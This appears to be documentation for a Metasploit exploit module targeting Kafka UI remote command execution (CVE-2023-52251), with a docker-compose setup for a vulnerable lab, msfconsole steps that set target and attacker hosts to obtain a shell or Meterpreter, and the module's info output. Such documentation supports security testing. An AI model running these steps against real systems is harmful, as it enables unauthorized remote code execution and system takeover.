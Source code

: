 ```yaml
    depends_on:
      - kafka
      - zookeeper
    environment:
      KAFKA_CLUSTERS_0_NAME: local
      KAFKA_CLUSTERS_0_BOOTSTRAPSERVERS: kafka:9092
      KAFKA_CLUSTERS_0_ZOOKEEPER: zookeeper:2181
      KAFKA_BROKERCONNECT: kafka:9092
      DYNAMIC_CONFIG_ENABLED: 'true'
      KAFKA_CLUSTERS_0_METRICS_PORT: 9997
```

* Run following command `docker-compose up -d` to install and run the Kafka ui and cluster environment.
* Your Kafka ui should be accessible on `http://localhost:8080` with an active Kafka cluster running.
* You can bring down the environment for a fresh start with the command `docker-compose down --volumes`.

You are now ready to test the module.

## Verification Steps
- [x] Start `msfconsole`
- [x] `use exploit/linux/http/kafka_ui_unauth_rce_cve_2023_52251`
- [x] `set rhosts <ip-target>`
- [x] `set lhost <ip-attacker>`
- [x] `set target <0=Unix/Linux Command>`
- [x] `exploit`

you should get a `shell` or `Meterpreter`.

```shell
msf6 exploit(linux/http/kafka_ui_unauth_rce_cve_2023_52251) > info

       Name: Kafka UI Unauthenticated Remote Command Execution via the Groovy Filter option.
     Module: exploit/linux/http/kafka_ui_unauth_rce_cve_2023_52251
   Platform: Unix, Linux
       Arch: cmd, x64, x86
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2023-09-27

Provided by:
  h00die-gr3y <h00die.gr3y@gmail.com>
  BobTheShopLifter and Thingstad

Module side effects:
 ioc-in-logs
 artifacts-on-disk

Module stability:
 crash-safe

Module reliability:
 repeatable-session

Available targets:
      Id  Name
      --  ----
  =>  0   Unix/Linux Command

Check supported:
  Yes
```